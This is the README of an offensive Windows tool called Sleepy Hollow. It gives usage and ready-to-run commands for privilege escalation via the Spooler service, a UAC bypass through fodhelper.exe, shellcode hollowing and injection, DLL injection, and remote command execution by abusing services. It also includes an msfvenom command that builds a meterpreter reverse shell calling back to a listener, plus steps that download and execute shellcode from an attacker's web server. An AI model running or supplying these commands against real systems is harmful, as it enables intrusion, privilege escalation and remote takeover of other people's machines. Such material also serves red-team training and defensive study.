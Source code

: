 # Sleepy Hollow

## Build

Requirements: _.NET 8 SDK_

Build native AOT executable with `dotnet publish -c Release --self-contained`

If you want a smaller executable, compress the executable with [upx](https://upx.github.io/):  `upx.exe -9 -o stager.exe .\SleepyHollow.exe`

## Usage

Use `SleepyHollow.exe` to see the usage information.

```text
Usage: SleepyHollow.exe <command> [options]
Commands:
  user  - displays privileges of current user

  spool - impersonates SYSTEM by abusing SpoolService
    --pipe: name of pipe (optional - will autogenerate name)
    --payload: path/URL to payload (ignored if --cmd is used)
    --cmd: command to execute after impersonation (optional)

  uac   - bypasses UAC by abusing fodhelper.exe
    --cmd: command to execute as Administrator

  sc    - executes shellcode 
    --payload: path/URL to shellcode
    --method: hollow/inject
    --wait: seconds to wait before exiting

  dll  - injects DLL into process
    --path: path/URL to DLL
    --processName: process to inject into

  rexec - executes command on remote host
    --hostname: hostname to connect to
    --cmd: command to execute
    --service: service to abuse
    --raw: execute command without prepending cmd.exe /c

Global options:
  --skip-evasion: skips sandbox evasion techniques
  --debug: enables debug output

```

## Examples

To generate the shellcode, we use `msfvenom`:

```bash
 msfvenom -p windows/meterpreter/reverse_https LHOST=192.168.45.219 LPORT=4444 EXITFUNC=thread -f hex -o sc.txt
```

Host this file on a web server.

### SpoolService

```bash
SleepyHollow.exe spool --payload http://<your_ip>/sc.txt
```

### Execute shellcode

This defaults to hollowing, but you can also inject the shellcode into a process by using `--method inject`.

```bash 
SleepyHollow.exe sc --payload http://<your_ip>/sc.txt
```

### UAC bypass

```bash
SleepyHollow.exe uac --cmd "C:\Windows\System32\cmd.exe /c whoami > C:\Users\Public\whoami.txt"
```

### Remote execution

This abuses the `SensorService` to execute commands on a remote host. You can use `--service` to specify a different service to abuse.

You can also use `--raw` to execute a command without prepending `cmd.exe /c

```bash
SleepyHollow.exe rexec --hostname <hostname> --cmd "whoami > C:\Users\Public\whoami.txt"
```

## Headless mode

You can run SleepyHollow in headless mode by using the `GenStager.ps1` script. This will build an executable that will execute shellcode without the need for a command line.

```powershell
./GenStager.ps1 -PayloadURL http://<your_ip>/sc.txt -OutFile stager.exe
```

When executed, this will download the shellcode from the url and execute. You can use this to execute shellcode on a remote host by using `rexec` if you have uploaded the file to the target host:

```bash
SleepyHollow.exe rexec --hostname <hostname> --service <service> --cmd "C:\Users\Public\stager.exe"
```

## References

* [Abusing Spooler to get SYSTEM](https://itm4n.github.io/printspoofer-abusing-impersonate-privileges/)

## Credits

* [SpoolSample](https://github.com/leechristensen/SpoolSample)
